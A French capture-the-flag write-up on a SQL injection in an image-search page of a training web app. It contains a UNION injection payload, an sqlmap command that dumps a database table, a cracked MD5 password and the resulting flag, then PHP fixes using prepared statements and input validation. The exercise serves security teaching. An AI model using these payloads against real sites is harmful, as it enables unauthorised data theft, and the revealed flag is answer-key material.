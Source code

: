 # Recherche

#### Suite de [12_SQL_injection_member](../../12_SQL_injection_member/Ressources/Readme.md).

- On peut trouver en bas de la page d'accueil  un bouton **SEARCH IMAGE**, qui nous amène sur une page ou l'on peut **rechercher des images** par leurs **ID**.

- En entrant **l'ID** `5`, on obtient:

```sql
ID: 5 
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

- En plus d'être [**suspect**](https://www.youtube.com/watch?v=McguBufbsQs), ce message nous indique que cette page est **vulnérable** face à une **Injection SQL**.

# Exploit

- Avec les **connaissances acquises** dans la **faille trouvé précédemment**, nous avons vu qu'il existe une **table** `list_images` qui contient les **colonnes** `id`, `url`, `title` et `comment`.

- On peut donc afficher les **colonnes** qui nous **intéressent** via la **requête suivante**:

```sql
1 UNION select url, comment from list_images
```

```text
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

- On peut utiliser <a href="https://md5decrypt.net/">MD5Decrypt</a> pour décrypter le **mot de passe**. On obtient alors: `albatroz`, soit `albatroz` en **minuscule**. en utilisant <a href="https://www.https://md5decrypt.net/Sha256/">MD5Decrypt</a> encore une fois, on peut obtenir le **hash sha256** de `albatroz`: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`.

# SQLMAP

- On peut utiliser **SQLMAP** pour **automatiser** la recherche de **faille SQL**:

```python
python3 sqlmap.py -u http://127.0.0.1:8080/index.php\?page\=searchimg\&id\=1\&Submit\=Submit\# --dump -T list_images -D Member_images
```

# Fix

- Pour éviter les **Injections SQL**, il faut utiliser des **requêtes préparées**, qui **séparent** les instructions SQL des données utilisateur.

```PHP
$pdo = new PDO('mysql:host=localhost;dbname=database', 'username', 'password');
$stmt = $pdo->prepare('SELECT * FROM list_images WHERE id = ?');
$stmt->execute([$_GET['id']]);
```

- Valider les **entrées utilisateur** pour s'assurer qu'elles **correspondent** au **format attendu**. Dans ce cas, vérifier que **l'ID** est un `int`.

```PHP
$id = $_GET['id'];
if (!filter_var($id, FILTER_VALIDATE_INT)) {
    die('Invalid input');
}
```

- Si les **requêtes préparées** ne sont pas une option, échapper **correctement** toutes les **entrées utilisateur** avant de les utiliser dans une **requête SQL**.

```PHP
$mysqli = new mysqli("localhost", "username", "password", "database");
$id = $mysqli->real_escape_string($_GET['id']);
$query = "SELECT * FROM list_images WHERE id = '$id'";
```

